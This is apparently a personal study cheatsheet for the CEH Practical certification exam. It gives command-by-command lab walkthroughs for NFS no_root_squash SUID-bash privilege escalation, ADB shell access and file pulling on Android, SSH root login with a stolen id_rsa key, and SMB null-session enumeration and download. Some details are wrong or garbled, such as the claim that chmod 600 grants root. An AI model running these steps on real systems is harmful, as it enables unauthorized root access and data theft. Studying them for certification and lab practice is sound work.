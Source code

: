 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes
**xfreerdp /u:[username] /p:[password] /v:[ip_address]** 
Exam RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
**Misconfigured nfs shares**
**Victim machine log in to target or ssh into it**
1. root@ubuntu:~# Sudo apt-get update
2. root@ubuntu:~# Sudo apt install nfs-kernel-server
3. root@ubuntu:~# sudo nano etc/exports 
>> This is what you add the entry inside the exports file:  /home   *(rw,no_root_squash)
4. root@ubuntu:~# sudo /etc/init.d/nfs-kernel-server restart (you have to restart the server)
5. root@ubuntu:~#
**Attacker machine**
You should see port 2049 open after scanning 
1. attacker@parrot:~#sudo nmap -sV [IP]
2. Do this manually nfs enumerate 
3. attacker@parrot:~# apt-get install nfs-common 
4. attacker@parrot:~:showmount -e [IP Addrr]) or attacker@parrot:~#sudo nmap -sV --script=nfs-showmount [victim IP]
5. attacker@parrot:~#mkdir  /tmp/nfs
6. attacker@parrot:~#sudo mount -t nfs [IP]:/home  /tmp/nfs
7. attacker@parrot:~#cd  /tmp/nfs
8. attacker@parrot:~#sudo cp /bin/bash .
9. attacker@parrot:~#sudo chmod +s bash
10. attacker@parrot:~#ls -la bash (you can see all the privileges) 
11. ttacker@parrot:~#ssh ubuntu@[IP] (now we can ssh into our target machine) 
12. attacker@parrot:~#cd /home
13. attacker@parrot:~#ls -la
14. attacker@parrot:~#./bash -p 
15. id
16. whoami

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>

smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
